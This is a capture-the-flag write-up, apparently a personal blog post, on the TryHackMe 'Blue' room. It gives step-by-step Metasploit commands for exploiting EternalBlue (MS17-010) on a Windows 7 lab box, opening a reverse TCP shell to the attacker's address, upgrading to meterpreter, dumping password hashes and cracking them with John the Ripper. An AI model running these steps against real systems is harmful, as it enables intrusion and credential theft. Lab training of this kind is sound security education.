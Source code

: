 ```yaml
---
layout: post
title: "Blue"
date: 2022-03-21
categories: [Tryhackme, Easy-THM]
tags: [Windows, enumerate, CMS, weekly-challenge]
image: ../../assets/img/posts/Blue.png 

---
```


## Description

Deploy & hack into a Windows machine, leveraging common misconfigurations issues.

|**Room**|[Blue](https://tryhackme.com/room/blue)|
|:---:|:---:|
|**OS**|Windows|
|**Difficulty**|Easy|
|**Creator**|[DarkStar7471](https://tryhackme.com/p/DarkStar7471)|

---

Let's run port scan on the deployed box,

```bash
nmap -sC -sV -p 1-1000 -oN nmap.txt 10.10.169.142
```

![image](https://user-images.githubusercontent.com/67465230/159208827-9ea5ea28-5f38-49be-8d13-287f0f3b7ed7.png)

We got 3 open ports, 135,139,445. Version running on the machine is Windows 7 Professional 6.1.

Let's search this machine's version on the google and there's a rapid7 exploit link, [MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption](https://www.rapid7.com/db/modules/exploit/windows/smb/ms17_010_eternalblue/) from which we get to know that this version of windows is vulnerable to MS17-010 a.k.a EternalBlue exploit

![image](https://user-images.githubusercontent.com/67465230/159208846-2a9ca746-13ee-46c7-90e8-e7b38443e26f.png)

```md
CVE-2017-0144: SMBv1 server in Microsoft Windows Vista SP2; Windows Server 2008 SP2 and R2 SP1; Windows 7 SP1; Windows 8.1; Windows Server 2012 Gold and R2; Windows RT 8.1; and Windows 10 Gold, 1511, and 1607; and Windows Server 2016 allows remote attackers to execute arbitrary code via crafted packets, aka "Windows SMB Remote Code Execution Vulnerability." This vulnerability is different from those described in CVE-2017-0143, CVE-2017-0145, CVE-2017-0146, and CVE-2017-0148.
```

Let's now exploit this vulnerability using metasploit-framework and fire it up using `msfconsole -q` and we'll search for exploit name,
 
```bash
search eternalblue
```

![image](https://user-images.githubusercontent.com/67465230/159208857-cd864191-4a3f-43de-8147-ee0fd4b1977f.png)

We have many exploits for this name but we're interested in **exploit/windows/smb/ms17_010_eternalblue** module, so we'll use this module.
 
```bash
use exploit/windows/smb/ms17_010_eternalblue
```

![image](https://user-images.githubusercontent.com/67465230/159208862-80d6dec3-7866-432d-9060-d2f6a6de811d.png)

We'll now set options but before setting them, let's see what options we have to set by doing `options`,

![image](https://user-images.githubusercontent.com/67465230/159208870-f28746ec-eeb8-40ca-bb66-1185ae970895.png)

Okay, we've to set rhosts, lhost, target and also *payload*.
 
Let's set options:
- **set rhosts 10.10.169.142**
- **set lhost 10.9.4.94**
- **set target 0**
- **set payload windows/x64/shell/reverse_tcp**

![image](https://user-images.githubusercontent.com/67465230/159208876-efe50cbb-4bf7-4b56-b1f4-d709371f1ed9.png)

Now that everything is set, we'll fire-up this exploit using `exploit` command,

![image](https://user-images.githubusercontent.com/67465230/159208887-841e5fbf-e1df-4fe3-9a45-4ae710a3f68e.png)

after sometime we'll get a DOS shell. Now, that we have a shell, why not get a meterpreter shell which is far more stable than this shell and will provide us many functionality and for that do CTRL+Z to background the shell and we can see that we got our metasploit-framework prompt back.

let's keep in mind of our shell's session,

```bash
sessions -l
```

![image](https://user-images.githubusercontent.com/67465230/159208894-d906d765-f62c-4514-a80b-f2f26de683ed.png)

Cool! Now, let's upgrade shell to meterpreter and for that we'll do some research on google and I found a module with which we can upgrade our shell to meterpreter, **post/multi/manage/shell_to_meterpreter**.

```bash
search post/multi/manage/shell_to_meterpreter
```

![image](https://user-images.githubusercontent.com/67465230/159208905-0c3441f7-b247-4f0f-acbc-99278a3ec61d.png)

we'll use this module,

```bash
use post/multi/manage/shell_to_meterpreter
```

now, we'll set options,
 - **set lhost 10.9.4.94**
 - **set session 2**

![image](https://user-images.githubusercontent.com/67465230/159208918-5baf2e97-2a21-4dee-9b19-1a362b925c19.png)

now that we've set all the options, let's fire this module using `exploit` command,

![image](https://user-images.githubusercontent.com/67465230/159208931-af547a67-c74e-484c-ad33-7642c8f29a02.png)

we got the meterpreter session open in front of us, now, press Enter and we'll get our metasploit-framework prompt back and there we'll do,

```bash
sessions -l
```

![image](https://user-images.githubusercontent.com/67465230/159208934-1866b208-fc75-4dca-92eb-a714de6c774e.png)

We'll select session 3 now.

Let's interact with session 3,

```bash
sessions -i 3
```

![image](https://user-images.githubusercontent.com/67465230/159208946-d2df7814-9897-4581-a47a-aacb7fb43444.png)

we immediately got the meterpreter shell.

Verify that we have escalated to NT AUTHORITY\SYSTEM. We'll run `getsystem` to confirm this and then confirm what user we're using `getuid`,

![image](https://user-images.githubusercontent.com/67465230/159208956-c765b4f6-97df-47ac-9785-20b9fb46eb22.png)

We're SYSTEM!!

We can list all of the processes running via the `ps` command. Just because we are system doesn't mean our process is,

![image](https://user-images.githubusercontent.com/67465230/159208964-9f9c1f9c-0d88-4ddc-9174-bbd280d7d270.png)

We can see that there are many process running under NT AUTHORITY\SYSTEM and we'll write process ID (remember).

We'll migrate the process using `migrate PROCESS_ID` command where the process id is the one you just wrote down in the previous step,

```bash
migrate 836
```

![image](https://user-images.githubusercontent.com/67465230/159208967-5b69824b-a3cb-4615-bdfc-a56d3cd6d7a2.png)

We've successfully migrated to other process. 

We've now gain full access to the machine and now let's dump all the passwords using `hashdump`,

```bash
hashdump
```

![image](https://user-images.githubusercontent.com/67465230/159208971-40777e78-f98e-4782-92c5-4e4033d1a44f.png)

Let's copy this hash and paste it in file on our own machine and using JTR, we will crack this hash,

```bash
john crack --wordlist=/usr/share/wordlists/rockyou.txt --format=NT
```

![image](https://user-images.githubusercontent.com/67465230/159208977-81b3edf1-b1e2-48da-aacb-11bcd670f14e.png)

we got cracked password of the user.

Now, time to hunt the flags and for that run `search -f flag*.txt` (what this command will do is to search any txt file which is named as flag[X] recursively in whole system where, X is number 1-9) and we found all flag destination directory. So let's navigate to those directory,

We got our first flag in root directory,

![image](https://user-images.githubusercontent.com/67465230/159208983-ba87f8ed-d652-4dcc-bf1a-a3c0983891c3.png)

Looking for second, we got flag where passwords are stored within windows, C:\Windows\System32\config, use `ls` command to list all content of directory,

![image](https://user-images.githubusercontent.com/67465230/159208993-d0d905e6-7f11-4e30-9c1c-dd248e7806c3.png)

Finally, looking for 3rd flag which is excellent location for looting flags,

![image](https://user-images.githubusercontent.com/67465230/159209023-6aa9a033-7184-400e-977d-438323a91a75.png)
